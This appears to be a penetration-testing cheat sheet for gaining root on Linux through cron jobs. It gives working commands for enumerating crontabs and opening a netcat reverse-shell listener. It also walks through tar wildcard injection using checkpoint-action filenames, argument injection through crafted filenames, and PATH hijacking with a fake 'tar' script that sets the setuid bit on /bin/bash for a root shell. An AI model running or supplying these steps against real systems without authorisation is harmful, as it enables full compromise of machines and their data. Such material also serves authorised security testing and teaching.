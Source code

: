 # Cronjobs

## Program to use: pspy https://github.com/DominicBreuker/pspy

### 

    crontab -l
    cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: 

    nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) 

    echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) 

    chmod +x runme.sh

#### 3) 

    echo "" > --checkpoint=1

#### 4) 

    echo "" > --checkpoint-action=exec=sh runme.sh

#### 5) 

    /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar

## Generic wildcard injection

### Example:

### If you detect a cronjob/script that uses wildcard, chances are that it is vulnerable to wildcard injection.

### 1) 

    echo "cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash" > shell.sh

### 2) 

    chmod +x shell.sh

### 3) 

    touch -- '-e shell.sh'

## More Examples:

Steps to exploit the example crontabs

Example vulnerable crontab

    #!/bin/sh
    export PATH="/home/USER/restapi:$PATH"
    cd /home/USER/restapi
    tar czf /tmp/flask.tar.gz *

### 1) Create a bash script that gives the bash binary the sticky bit

tar (script name)

    #!/bin/bash
    chmod u+s /bin/bash

### 2) Add it to the directory where the cronjob accesses it

    cp tar /home/USER/restapi/tar

### 3) Wait for the crontab to execute, then run the bash binary for root

    /bin/bash -p
